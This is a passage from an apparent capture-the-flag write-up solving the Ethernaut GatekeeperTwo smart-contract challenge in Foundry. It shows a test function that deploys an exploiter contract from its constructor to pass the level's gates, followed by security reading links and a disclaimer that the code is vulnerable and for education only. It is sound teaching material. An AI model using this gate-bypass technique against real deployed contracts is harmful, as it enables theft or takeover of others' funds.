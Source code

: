 Now we can call the test function and solve it

```solidity
function exploitLevel() internal override {
    vm.prank(player, player);

    // Deploy the middle contract that automatically call the `level` contract
    // Inside the `constructor`
    new Exploiter(level);

    // Assert that we have solved the challenge
    assertEq(level.entrant(), player);
}
```

You can read the full solution of the challenge opening [GatekeeperTwo.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/GatekeeperTwo.t.sol)

## Further reading

- [Solidity Docs: tx.origin and msg.sender, gasleft() as Global Variables](https://docs.soliditylang.org/en/latest/cheatsheet.html?#global-variables)
- [Solidity Docs: never use tx.origin for authorization](https://docs.soliditylang.org/en/latest/security-considerations.html#tx-origin)
- [Consensys Ethereum Smart Contract Best Practices - Avoid using tx.origin](https://consensys.github.io/smart-contract-best-practices/development-recommendations/solidity-specific/tx-origin/)
- [SigmaPrime - tx.origin](https://github.com/sigp/solidity-security-blog#tx-origin)
- [Solidity Docs: Conversions between Elementary Types](https://docs.soliditylang.org/en/latest/types.html#conversions-between-elementary-types)
- [Solidity Docs: Conversions between Literals and Elementary Types](https://docs.soliditylang.org/en/latest/types.html#conversions-between-literals-and-elementary-types)
- [Deconstructing a Solidity Contract — Part II: Creation vs. Runtime](https://blog.openzeppelin.com/deconstructing-a-solidity-contract-part-ii-creation-vs-runtime-6b9d60ecb44c/)
- [Solidity Documentation: Yul](https://docs.soliditylang.org/en/latest/yul.html)
- [XOR Opcode](https://www.evm.codes/#18)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
